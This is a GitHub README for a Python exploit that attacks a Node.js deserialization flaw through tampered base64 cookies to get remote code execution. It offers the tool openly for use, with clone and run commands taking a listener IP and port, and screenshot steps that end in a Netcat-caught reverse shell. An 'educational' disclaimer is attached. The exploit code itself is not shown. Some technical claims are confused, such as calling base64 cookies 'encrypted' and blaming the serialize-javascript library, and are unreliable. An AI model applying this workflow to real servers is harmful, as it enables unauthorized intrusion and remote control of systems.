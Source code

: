 # Exploit for Node.js Deserialization Bug for Remote Code Execution (Reverse shell)


[![N|Solid](https://cldup.com/dTxpPi9lDf.thumb.png)](https://nodesource.com/products/nsolid)

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

This repository contains a Python script that exploits a deserialization vulnerability in Node.js to achieve remote code execution on a server that handles cookies encrypted in insecure base64 format.

## Disclaimer: 
This script is for educational and research purposes only. It should not be used maliciously or without explicit permission from the server owner. Misuse of this script may be illegal and is strictly prohibited.


## Description

Node.js is a JavaScript runtime that uses the Google V8 engine. In certain versions of Node.js, there is a deserialization vulnerability in the "serialize-javascript" library that allows an attacker to manipulate deserialized data on the server and execute remote code in an unauthorized manner.

This Python script utilizes the requests library to make an HTTP POST request to the target server. The script sends a base64-encoded cookie containing manipulated data to exploit the deserialization vulnerability and execute remote code.

## Requeriments 
- Python 3.x installed on the system.
- The requests library installed. You can install it using the following command:
    ```bash
    pip install requests
    ```
## Usage

1. Clone the repository to your local machine:
    ```bash
    git clone https://github.com/Campero727/NodeJsDeserialization.git
    ```
2. Navigate to the repository directory:
    ```bash
    cd NodeJsDeserialization
    ```
3. Execute the script providing the IP of the machine where the reverse shell will be received
    ```bash
    python3 NodeJsDeserialization.py <ip> <port>
    ```
## Warning
- This script is intended for educational and research purposes only. Do not use it on systems without explicit permission from the owner of the target server.
- The inappropriate or unauthorized use of this script may be illegal and is strictly prohibited.
- The author and contributors of this repository assume no responsibility for the misuse of this script.

## Use Example
1. Check that website cookies are base64 encrypted in an insecure way
![Cookies in the website](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img1.png)
2. In this case we can easily decrypt the cookie and read the data
![data](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img2.png)
3. If we modify the cookie trying to execute command we will get a node deserialization error
![Deserialization error](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img3.png)
4. So now we know it's vulnerable, so we'll run the script to get a reverse shell
![error](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img4.png)
5. We listen in Netcat
![Nc](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img5.png)
6. We copy the reverse shell generated in the cookie and reload the page
![Cookie for RCE](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img6.png)
7. We will obtain the reverse shell
![Reverse shell](https://raw.githubusercontent.com/Campero727/NodeJsDeserialization/master/assets/img7.png)
